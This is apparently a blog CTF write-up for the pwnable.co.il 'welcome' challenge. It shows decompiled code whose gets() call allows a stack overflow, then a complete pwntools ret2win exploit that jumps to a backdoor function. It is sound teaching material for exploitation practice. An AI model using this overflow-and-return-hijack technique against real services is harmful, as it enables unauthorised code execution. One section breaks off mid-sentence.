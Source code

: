 ```yaml
---
title: "pwnable.co.il - welcome"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "simple ret2win challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> Welcome to Pwnable.co.il!
> I hope you'll like this one...

### Protections:
<pre>    Arch:       amd64-64-little
    RELRO:      <font color="#FFBC51">Partial RELRO</font>
    Stack:      <font color="#FF3C3C">No canary found</font>
    NX:         <font color="#49FF6D">NX enabled</font>
    PIE:        <font color="#FF3C3C">No PIE (0x400000)</font>
    Stripped:   <font color="#FF3C3C">No</font>
</pre>

Let's start by extracting the ELF file from the zip and analyzing it with the Hex-Rays decompiler:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char name[32]; // [rsp+0h] [rbp-20h] BYREF

  init_buffering(argc, argv, envp);
  puts("Welcome to pwnable.co.il!");
  puts("What is your name?");
  gets(name);
  printf("Thank you %s!\n", name);
  return 1;
}
```
We can easily see the vuln, the program uses the function `gets()`,
this gives us a buffer overflow (a.k.a BOF) primitive, so we can overwrite stack data beyond the `name` buffer, including the saved return address of the function itself.

According to to the protections, the program also lacks a `stack canary` and is not `PIE`, 
so overwriting the return address with gadgets or functions from the program and even building a ROP chain is a good approach.

### Functions list:

In our case

## payload
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './welcome')

### config ###
host = args.HOST or 'pwnable.co.il'
port = int(args.PORT or 9000)

### defines ###
PADDING = 40

### gadgets ###
ret = 0x000000000040076c

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def main():
    ### run ###
    io = start()

    ### payload ###
    payload = cyclic(PADDING)
    payload += p64(ret)
    payload += p64(exe.sym.secret_backdoor)

    io.sendline(payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```
